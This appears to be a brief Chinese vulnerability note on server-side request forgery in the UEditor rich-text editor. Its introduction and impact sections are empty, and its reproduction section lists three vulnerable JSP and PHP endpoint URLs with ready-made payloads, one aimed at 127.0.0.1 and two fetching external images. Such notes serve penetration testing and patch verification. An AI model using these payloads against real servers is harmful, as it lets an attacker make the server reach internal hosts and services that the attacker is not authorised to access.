 ```yaml
---
title: ueditor ssrf
id: zhfly3206
---
```


# ueditor ssrf

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

存在漏洞路径：

```
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg

/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif

/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif `存在就会抓取成功、也可以抓取外网的测试` 
```